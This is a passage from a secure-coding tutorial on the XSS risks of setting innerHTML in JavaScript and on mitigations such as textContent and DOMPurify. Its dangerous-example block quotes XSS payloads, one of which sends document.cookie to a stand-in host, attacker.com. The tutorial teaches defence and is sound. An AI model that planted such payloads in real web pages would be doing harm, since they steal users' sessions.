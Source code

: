 
## 3. BEWARE! Critical Considerations & Pitfalls

This is the most important section. Understanding these points will help you avoid common bugs and serious security vulnerabilities.

### A. The #1 Concern: Security - Cross-Site Scripting (XSS)

**This is paramount. Misusing `innerHTML` is one of the most common ways to introduce XSS vulnerabilities into a web application.**

* **What is XSS?** XSS occurs when malicious scripts are injected into a trusted website. If you set `innerHTML` using data that comes from an untrusted source (e.g., user input, data from a third-party API you don't fully control, URL parameters) **without proper sanitization**, you are essentially allowing an attacker to execute arbitrary JavaScript in the context of your users' browsers.
* **How it Happens with `innerHTML`:** An attacker crafts input containing malicious `<script>` tags or HTML attributes that execute JavaScript (like `onerror` on an `<img>` tag). When this input is set via `innerHTML`, the browser parses and executes this malicious script.
* **Consequences:** Stolen user sessions/cookies, redirection to phishing sites, displaying fake login forms, defacing the website, keylogging, etc.

**Example of a Dangerous XSS Vulnerability:**

```javascript
// Assume 'userInput' comes from a URL parameter or a form field
// e.g., userInput = "<img src='invalid' onerror='alert(\"XSS Attack! Your session data could be stolen.\")'>";
// OR userInput = "<script>document.location='[http://attacker.com/steal?cookie='+document.cookie](http://attacker.com/steal?cookie='+document.cookie);</script>"

const commentSection = document.getElementById('comments');
// DANGEROUS if userInput is not sanitized:
commentSection.innerHTML = `<div class="comment">${userInput}</div>`;
```

**Mitigation Strategies (Your Defense Against XSS):**

1.  **`textContent` for Plain Text (Your Safest Bet):**
    If you only need to insert **plain text** (and NOT actual HTML structure), **ALWAYS prefer `element.textContent = yourText;`**. `textContent` automatically escapes any HTML-like characters, rendering them as literal text, thus preventing XSS.
    ```javascript
    let userNameFromInput = "Guest<script>alert('XSS attempt!')</script>";
    const greetingElement = document.getElementById('userGreeting');

    // SAFE:
    greetingElement.textContent = `Hello, ${userNameFromInput}!`;
    // What the user sees: Hello, Guest<script>alert('XSS attempt!')</script>!
    // The <script> tag is displayed as text, NOT executed.
    ```

2.  **Sanitization/Purification (If HTML Rendering from Untrusted Sources is Unavoidable):**
    If you *absolutely must* render HTML that comes from an untrusted source (e.g., output from a rich text editor that allows users some formatting), you **MUST sanitize** it first. Sanitization involves parsing the HTML and removing any potentially malicious elements, attributes, or JavaScript code, while ideally preserving safe formatting.
    * **Use a Trusted Library:** Don't try to write your own sanitizer; it's incredibly hard to get right. **DOMPurify** is a widely respected and robust client-side HTML sanitization library.
        ```javascript
        // Ensure DOMPurify is included in your project (e.g., via npm or a CDN)
        // import DOMPurify from 'dompurify'; // If using modules
